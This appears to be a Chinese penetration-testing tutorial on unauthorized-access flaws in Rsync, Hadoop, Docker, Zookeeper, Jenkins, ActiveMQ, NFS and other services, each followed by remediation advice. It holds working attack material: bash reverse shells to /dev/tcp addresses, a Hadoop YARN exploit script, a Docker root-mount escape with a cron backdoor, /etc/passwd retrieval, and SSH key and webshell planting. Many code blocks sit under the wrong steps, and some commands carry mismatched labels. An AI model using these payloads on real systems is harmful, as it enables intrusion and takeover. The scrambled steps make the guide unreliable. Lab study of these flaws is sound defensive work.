

通过 addurl 参数进行木马的远程部署

http://192.168.168.128/shell.war



成功上传木马


访问 http://IP:8080/war 包名 / 包名内文件名即可成功连接。

### 修复方法

*   对 jmx 控制页面访问添加访问验证
    
*   删除 JMX Console, 后重启 JBoss
    

VNC 未授权访问漏洞
-----------

### 漏洞简介

VNC 是虚拟网络控制台 Virtual Network Console 的英文缩写。它是一款优秀的远程控制工具软件由美国电话电报公司 AT&T 的欧洲研究实验室开发。VNC 是基于 UNXI 和 Linux 的免费开源软件由 VNC Server 和 VNC Viewer 两部分组成。VNC 默认端口号为 5900、5901。VNC 未授权访问漏洞如被利用可能造成恶意用户直接控制受控主机危害相当严重。

### 漏洞复现

#### 环境搭建

下载 https://archive.realvnc.com/download/

#### 漏洞检测

Metasploit 的 use auxiliary/scanner/vnc/vnc\_none\_auth 模块

#### 漏洞利用

Kali 运行 vncviewer

### 修复方法

(1) 配置 VNC 客户端登录口令认证并配置符合密码强度要求的密码。

(2) 以最小权限的普通用户身份运行操作系统。

Rsync 未授权访问漏洞
-------------

### 漏洞简介

Rsync（remote synchronize）是一个远程数据同步工具，可通过 LAN/WAN 快速同步多台主机间的文件，也可以同步本地硬盘中的不同目录。Rsync 默认允许匿名访问，如果在配置文件中没有相关的用户认证以及文件授权，就会触发隐患。Rsync 的默认端口为 873。

更多 Rsync 的介绍请移步：https://www.linuxprobe.com/use-rsync-file.html

### 漏洞复现

#### 环境搭建

这里使用 vulhub 中的项目来搭建复现环境

Vulhub 漏洞环境搭建教程参考：

https://www.fujieace.com/penetration-test/vulhub.html




#### 漏洞检测

nmap 检测：

nmap -p 873 —script rsync-list-modules



Metasploit 的 auxiliary/scanner/rsync/modules\_list 模块



#### 漏洞利用

列出目标服务器的同步目录

```
rsync 192.168.168.131::
rsync rsync://192.168.168.131:873
```


查看模块文件

获取到目录之后，只需在路径后添加目录名即可查看目录中的文件

```
rsync rsync://192.168.168.131/src/etc/passwd ./pass.txt
```



可以看到成功列出 src 目录

任意文件下载

```
rsync 1.txt rsync://192.168.168.131/src/home/
```



任意文件上传

```
//17 root cd / && run-parts —report /etc/cron.hourly
//表示17分钟会启动/etc/cron.hourly目录下文件的任务
```


通过任意文件上传，可以直接写 WebShell（如果目标有 Web 服务的话），或者可以通过写 ssh 公钥实现获取权限，或者通过写 cron 定时任务反弹 shell。

通过写 cron 任务反弹 shell

1、下载 cron 定时任务配置文件并且查看任务内容



```
rsync -av shell rsync://127.0.0.1/src/etc/cron.hourly
```

2、构造 shell

!/bin/bash
==========

/bin/bash -i >& /dev/tcp/192.168.168.133/8796 0>&1


赋予执行权限

chmod +x shell

3、把 shell 上传至 / etc/cron.hourly 目录下

写入 cron.hourly 下文件的任务就会启动

```
nc -lvvp 8796
```



4、本地监听 8796 端口，等待计划任务执行后反弹 shell 成功

```
#!/usr/bin/env python

import requests

target = 'http://127.0.0.1:8088/'
lhost = '192.168.220.137' # put your local host ip here, and listen at port 9999

url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app\_id = resp.json()\['application-id'\]
url = target + 'ws/v1/cluster/apps'
data = {
    'application-id': app\_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
        },
    },
    'application-type': 'YARN',
}
requests.post(url, json=data)
```



### 修复方法

更改 rysnc 默认配置文件 / etc/rsyncd.conf，添加或修改参数：

访问控制；设置 host allow，限制允许访问主机的 IP。

权限控制；设置 read only，将模块设置成只读。

访问认证；设置 auth、secrets，认证成功才能调用服务。

模块隐藏；设置 list，将模块隐藏。

Hadoop 未授权访问漏洞
--------------

### 漏洞简介

Hadoop 是一个由 Apache 基金会所开发的分布式系统基础架构，由于服务器直接在开放了 Hadoop 机器 HDFS 的 50070 web 端口及部分默认服务端口，黑客可以通过命令行操作多个目录下的数据，如进行删除，下载，目录浏览甚至命令执行等操作。

更多 Hadoop 的介绍请移步：http://hadoop.apache.org/docs/r3.1.2/

### 漏洞复现

#### 环境搭建

这里使用 vulhub 中的项目来搭建复现环境

Vulhub 漏洞环境搭建教程参考：

https://www.fujieace.com/penetration-test/vulhub.html


#### 漏洞检测

直接访问 http://192.168.168.131:8088/cluster



#### 漏洞利用

利用过程如下：

1、在本地监听等待反弹 shell 连接

2、调用 New Application API 创建 Application

3、调用 Submit Application API 提交

POC: exploit.py

```
wget https://mirrors.tuna.tsinghua.edu.cn/apache/zookeeper/zookeeper-3.5.8/apache-zookeeper-3.5.8.tar.gz
tar -zxvf apache-zookeeper-3.5.8.tar.gz
cd apache-zookeeper-3.5.8/conf/
mv zoo\_sample.cfg zoo.cfg
../bin/zkServer.sh start # 启动
```

（1）修改 py 中 target、lhost 的 IP



（2）开启监听 nc -lvvp 9999

（3）python exploit.py



### 修复方法

（1）如无必要，关闭 Hadoop Web 管理页面

（2）开启身份验证 , 防止未经授权用户访问。

（3）设置 “安全组” 访问控制策略, 将 Hadoop 默认开放的多个端口对公网全部禁止或限制可信任的 IP 地址才能访包括 50070 以及 WebUI 等相关端口。

Zookeeper 未授权访问漏洞
-----------------

### 漏洞简介

Zookeeper 是分布式协同管理工具，常用来管理系统配置信息，提供分布式协同服务，是 Hadoop 和 Hbase 的重要组件。它是一个为分布式应用提供一致性服务的软件，提供的功能包括配置维护、域名服务、分布式同步、组服务等。

ZooKeeper 默认开启在 **2181** 端口，在未进行任何访问控制的情况下，攻击者可通过执行 envi 命令获得系统大量的敏感信息，包括系统名称、Java 环境，这将导致任意用户在网络可达的情况下进行未授权访问并读取数据甚至 kill 服务。

### 漏洞复现

#### 环境搭建

```
\# coding=utf-8
import socket
import sys

def check(ip, port, timeout, cmd):
    try:
        socket.setdefaulttimeout(timeout)
        s = socket.socket(socket.AF\_INET, socket.SOCK\_STREAM)
        s.connect((ip, int(port)))
        s.send(cmd)
        data = s.recv(1024)
        s.close()
        print data
    except:
        pass

def main():
    if len(sys.argv) < 3:
        exit()
    ip = sys.argv\[1\]
    cmd = sys.argv\[2\]
    # envi
    # dump
    # reqs
    # ruok
    # stat
    check(ip, 2181, 3, cmd)

if \_\_name\_\_ == '\_\_main\_\_':
main()
```


#### 漏洞检测

(1) 通过 nmap 扫描开放了 2181 端口的主机。

(2) 运行脚本通过 socket 连接 2181 端口并发送 envi 命令若服务端返回的数据中包含 ZooKeeper 的服务运行环境信息即可证明存在未授权访问。

Python 检测脚本：

```
echo stat |ncat 127.0.0.1 2181
```

#### 漏洞利用

1、stat：列出关于性能和连接的客户端的统计信息。

```
echo conf |ncat 127.0.0.1 2181
```

2、conf：输出相关服务配置的详细信息，端口、数据路径、日志路径、session 超时时间，最大连接数等。

```
echo cons |ncat 127.0.0.1 2181
```

3、cons：列出所有连接到当前服务器的客户端 / 会话的详细信息。

```
echo envi |ncat 127.0.0.1 2181
```

4、envi：打印有关服务环境的详细信息。

```
echo dump |ncat 127.0.0.1 2181
```

5、dump：列出未完成的会话和临时节点。

```
docker -H tcp://192.168.168.131:2375 images
```

### 修复方法

1、修改 ZooKeeper 默认端口，采用其他端口服务。

2、添加访问控制，配置服务来源地址限制策略。

3、增加 ZooKeeper 的认证配置。

Docker 未授权访问漏洞
--------------

### 漏洞简介

Docker 是一个开源的应用容器引擎，基于 Go 语言 并遵从 Apache2.0 协议开源。Docker 可以让开发者打包他们的应用以及依赖包到一个轻量级、可移植的容器中，然后发布到任何流行的 Linux 机器上，也可以实现虚拟化。容器是完全使用沙箱机制，相互之间不会有任何接口（类似 iPhone 的 app）, 更重要的是容器性能开销极低。

存在问题的版本分别为 1.3 和 1.6 因为权限控制等问题导致可以脱离容器拿到宿主机权限。

更多 docker 的介绍请移步：https://www.runoob.com/docker/docker-tutorial.html

### 漏洞复现

#### 环境搭建

这里使用 vulhub 中的项目来搭建复现环境

Vulhub 漏洞环境搭建教程参考：

https://www.fujieace.com/penetration-test/vulhub.html



#### 漏洞检测

先用 nmap 扫描查看端口开放情况。2375 为 docker 端口



通过命令连接：

docker -H tcp://192.168.168.131:2375 version



或者 url 访问：http://192.168.168.131:2375/version



可以看到 docker 版本等基本信息，说明漏洞存在。

#### 漏洞利用

列出所有镜像

```
docker -H tcp://192.168.168.131:2375 ps -a
```

列出所有容器

```
docker -H tcp://192.168.168.131:2375 run -it -v /:/mnt nginx:latest /bin/bash
```

1、写入 ssh 公钥

运行一个新容器，并且将该宿主机的根目录挂在到容器的 / mnt 目录下

docker -H tcp://192.168.168.131:2375 run -it -v /:/mnt nginx:latest /bin/bash

启动之后就会获得该容器宿主机的 shell:


之后将攻击者的 ssh 公钥~/.ssh/id\_rsa.pub 的内容写到入宿主机的 / root/.ssh/authorized\_keys 文件中



之后就可以用 root 账户直接登录了

ssh root@x.x.x.x 登录

2、在 crontab 里写定时任务，反弹 shell

1、运行一个新容器，并且将该宿主机的根目录挂在到容器的 / mnt 目录下:

```
echo '\* \* \* \* \* /bin/bash -i >& /dev/tcp/192.168.168.133/8988 0>&1' >> /mnt/var/spool/cron/crontabs/root
```

启动之后就会获得该容器宿主机的 shell:


2、在容器内执行命令，将反弹 shell 的脚本写入到 / var/spool/cron/crontabs/root (ubuntu 系统) 或 / var/spool/cron/root（centos 系统）:

```
#! /usr/bin/env python
# \_\*\_  coding:utf-8 \_\*\_
from ldap3 import Connection,Server,ALL
def ldap\_anonymous(ip):
    try:
        server = Server(ip,get\_info=ALL,connect\_timeout=1)
        conn = Connection(server, auto\_bind=True)
        print "\[+\] ldap login for anonymous"
        conn.closed
    except:
        #pass
        print '\[-\] checking for ldap anonymous fail'
```


（写入 / etc/crontabs/root 文件也可以）

3、本地监听端口，获取 shell:


### 修复方法

1、设置 ACL，只允许信任 ip 连接对应端口

2、开启 TLS，使用生成的证书进行认证

Jenkins 未授权访问漏洞
---------------

### 漏洞简介

Jenkins 是一个开源软件项目，是基于 Java 开发的一种持续集成工具，用于监控持续重复的工作，旨在提供一个开放易用的软件平台，使软件的持续集成变成可能。Jenkins 默认监听端口为 8080。

漏洞原因：未设置密码，导致未授权访问。

更多 Jenkins 的介绍请移步：https://www.w3cschool.cn/jenkins/

### 漏洞复现

#### 环境搭建

wget http://mirrors.jenkins.io/debian/jenkins\_1.621\_all.deb # 下载

dpkg -i jenkins\_1.621\_all.deb # 安装

service Jenkins start #开启服务


#### 漏洞检测

直接通过 url 访问

http://:8080/manage

http://:8080/script

没有任何限制


#### 漏洞利用

1、点击 script console


2、执行系统命令, 下图看到成功执行系统命令


3、利用 Script Console 上传 webshell, 内容如下:

new File(“/var/www/html/phpinfo.php”).write(‘<?php phpinfo();?>’);


### 修复方法

1、对后台控制页面做登录验证限制

2、升级版本

Jupyter Notebook 未授权访问漏洞
------------------------

### 漏洞简介

Jupyter Notebook（此前被称为 IPython notebook）是一个交互式笔记本，支持运行 40 多种编程语言。默认监听在 8888 端口。

如果管理员未为 Jupyter Notebook 配置密码，将导致未授权访问漏洞，游客可在其中创建一个 console 并执行任意 Python 代码和命令。

更多 Jupyter Notebook 的介绍请移步：

https://jupyter-notebook.readthedocs.io/en/stable/notebook.html

### 漏洞复现

#### 环境搭建

这里使用 vulhub 中的项目来搭建复现环境

Vulhub 漏洞环境搭建教程参考：

https://www.fujieace.com/penetration-test/vulhub.html


#### 漏洞检测

Nmap 扫描开放了 8888 端口

访问 http://IP:8888


可直接打开 Terminal

#### 漏洞利用

New > Terminal 可以执行任意命令


### 修复方法

1）配置 Jupyter Notebook 密码

2）设置访问规则

ActiveMQ 未授权访问漏洞
----------------

### 漏洞简介

ActiveMQ 是 Apache 下的开源项目，是一种在分布式系统中应用程序借以传递消息的媒介，ActiveMQ 默认监听在 8161 端口。

默认情况下，ActiveMQ 服务是没有配置安全参数。攻击者可以利用默认配置弱点发动远程命令执行攻击，获取服务器权限，从而导致数据泄露。ActiveMQ 默认账号密码为 admin/admin

### 漏洞复现

#### 环境搭建

这里使用 vulhub 中的项目 (CVE-2015-5254) 来搭建复现环境

Vulhub 漏洞环境搭建教程参考：

https://www.fujieace.com/penetration-test/vulhub.html


#### 漏洞检测

nmap 扫描，开放了 8161 端口

访问 url: http://192.168.168.131:8161

登录，默认用户名密码是 admin/admin


#### 漏洞利用

若服务器存在 fileserver 目录，则可以通过 put 请求写入文件，但 fileserver 下的文件默认不解析


然后使用 MOVE 请求移动文件，如果是写入 webshell 需要做的物理路径，在 http://192.168.168.131:8161/admin/test/systemProperties.jsp 可以查看物理路径


如果是 root 权限，还可以直接写入 cron 或 ssh key 等文件，反弹 shell。

### 修复方法

1）针对未授权访问，可修改 conf/jetty.xml 文件，bean id 为 securityConstraint 下的 authenticate 修改值为 true，重启服务即可

2）针对弱口令，可修改 conf/jetty.xml 文件，bean id 为 securityLoginService 下的 conf 值获取用户 properties，修改用户名密码，重启服务即可

LDAP 未授权访问漏洞
------------

### 漏洞简介

LDAP 中文全称为：轻型目录访问协议（Lightweight Directory Access Protocol），默认使用 389 端口， LDAP 底层一般使用 TCP 或 UDP 作为传输协议。目录服务是一个特殊的数据库，是一种以树状结构的目录数据库为基础。

未对 LDAP 的访问进行密码验证，导致未授权访问。

### 漏洞复现

#### 漏洞检测

Python 检测脚本

```
sudo vi /etc/exports
```

#### 漏洞利

可以使用 ldapbrowser 直接连接，获取目录内容。


点击 File->New Profile，把要连接的 ldap server 的 IP、端口、base DN、用户名、密码统统填好，然后就能连上了，一般是能看到整个 ldap 树的情况。

### 修复方法

1）修改 ldap 的 acl，不允许匿名访问。

2）根据业务设置 ldap 访问白名单或黑名单。

NFS 未授权访问漏洞
-----------

### 漏洞简介

NFS（Network File System）即网络文件系统，它允许网络中的计算机之间通过 TCP/IP 网络共享资源。在 NFS 的应用中，本地 NFS 的客户端应用可以透明地读写位于远端 NFS 服务器上的文件，就像访问本地文件一样。若运维人员未对文件访问进行控制，将导致本地文件可被任意读取。

NFS 默认监听端口为 2049。

### 漏洞复现

#### 环境搭建

安装 NFS 服务端：sudo apt install nfs-kernel-server

安装 NFS 客户端：sudo apt install nfs-common

编写配置文件：

编辑 / etc/exports 文件：
====================

```
/tmp \*(rw,sync,no\_subtree\_check,no\_root\_squash)
```

/etc/exports 文件的内容如下：
=====================

```
sudo mkdir -p /tmp
```

创建共享目录

在服务器端创建 / tmp 共享目录
==================

```
sudo service nfs-kernel-server restart
```

重启 nfs 服务：

```
sudo service nfs-kernel-server restart
```


#### 漏洞利用

showmount -e 192.168.168.131 查看 nfs 服务器上的共享目录


将 NFS 服务器 192.168.168.131 上的目录，挂载到本地

sudo mount -t nfs 192.168.168.131:/tmp /mnt


### 修复方法

1、设置 / etc/exports，对访问进行控制

2、利用 iptables 限制端口 2049 和 20048 端口的访问

宝塔面板 phpMyAdmin 未授权访问漏洞
-----------------------

### 漏洞简介

宝塔面板是提升运维效率的服务器管理软件，支持一键 LAMP/LNMP/WAMP / 集群 / 监控 / 网站 / FTP / 数据库 / JAVA 等 100 多项服务器管理功能。

宝塔 Linux 面板 7.4.2 版本和 Windows 面板 6.8 版本存在 phpmyadmin 未授权访问漏洞。

### 漏洞复现

漏洞 URL：ip:888/pma 即可直接登录（但要求必须安装了 phpmyadmin）


### 修复方法

更新到最新版

进入目录 /www/server/phpmyadmin/ 里面 把 PMA 目录删掉

参考
--

https://www.freebuf.com/articles/web/207877.html

https://xz.aliyun.com/t/6103

https://www.cnblogs.com/xiaozi/p/13369596.html

https://www.yuque.com/cheng-4ueio/tow7i5/wrbzgy  


 交易担保 FreeBuf+ FreeBuf + 小程序：把安全装进口袋 小程序

精彩推荐

  

  

  

  

********

[](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247484287&idx=1&sn=16a9b2dc0e205a0e5fe86ae5cae9fe2e&scene=21#wechat_redirect)[](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247484370&idx=1&sn=8b79701a2936e04e390f165344e5fcdc&scene=21#wechat_redirect)

[](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247484931&idx=1&sn=5b40049403f5ca447f2f99ebe43ece6d&scene=21#wechat_redirect)[](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247484906&idx=1&sn=9c71a9a40d8dbf650bba7c2751d7df92&scene=21#wechat_redirect)[](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247484890&idx=1&sn=a35949908769038c4fa7004f0618d485&scene=21#wechat_redirect)

****************************

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
